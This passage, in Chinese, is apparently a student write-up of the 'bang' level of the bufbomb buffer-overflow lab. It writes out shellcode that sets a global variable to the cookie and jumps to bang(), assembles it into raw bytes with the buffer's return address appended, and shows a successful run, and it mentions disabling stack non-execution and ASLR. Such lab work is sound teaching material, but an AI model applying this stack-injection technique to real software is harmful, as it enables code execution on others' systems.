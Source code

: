 	这样机器就会把我们写入缓冲区的数据当成指令来执行, 完成的功能如下

	*	把全局变量 `global_value` 的值设置为 `cookie` 的值, 即

		`global_value = 0x5fb97de9

	*	进入 `bang()` 函数

	在 `bufbomb.s` 中我们可以看到 `global_val` 的地址是 `0x0804a1dc`, `bang()` 的地址是 `0x08048d60`

	因此我们可以写出如下汇编代码, 并保存为文件 `bang.s`

	```asm
	movl $0x5fb97de9,0x0804a1dc
	push $0x08048d60
	ret
	```

	再用 `gcc -m32 -c bang.s` 得到 `bang.o`, 接着用 `objdump -d bang.o > bangobjdump.s` 得到 `bangobjdump.o`

	```asm
	bang.o:     file format elf32-i386

	Disassembly of section .text:

	00000000 <.text>:
	   0:   c7 05 dc a1 04 08 e9    movl   $0x5fb97de9,0x804a1dc
	   7:   7d b9 5f 
	   a:   68 60 8d 04 08          push   $0x8048d60
	   f:   c3                      ret
	```

	即我们写的汇编代码的机器码为 `c7 05 dc a1 04 08 e9 7d b9 5f 68 60 8d 04 08 c3`, 刚好 16 字节, 把这些内容写入 `exploit.txt`, 并再后面加上 `buf` 的起始地址 `2c ba ff ff`, 即

	> c7 05 dc a1 04 08 e9 7d b9 5f 68 60 8d 04 08 c3 2c ba ff ff

	最后生成的 `exploit-raw.txt` 为

	```
	$xxd exploit-raw.txt
	xxd exploit-raw.txt
	00000000: c705 dca1 0408 e97d b95f 6860 8d04 08c3  .......}._h`....
	00000010: 2cba ffff 0a                             ,....
	```

	测试一下结果

	```
	root@vultr:~# ./bufbomb -t SA18225263+SA18225419+SA18225037 < exploit-raw.txt
	Team: SA18225263+SA18225419+SA18225037
	Cookie: 0x5fb97de9
	Type string:Bang!: You set global_value to 0x5fb97de9
	NICE JOB!
	Sent validation information to grading server
	```

	需要注意的是, 处于安全考虑, `Ubuntu16.04` 不允许在栈上执行指令, 我们需要使用 `execstack` 工具加上执行权限, 同时关掉 `ASLR` (Address space layout randomization, 地址空间布局随机化), 否则会出现 `segmentation fault`
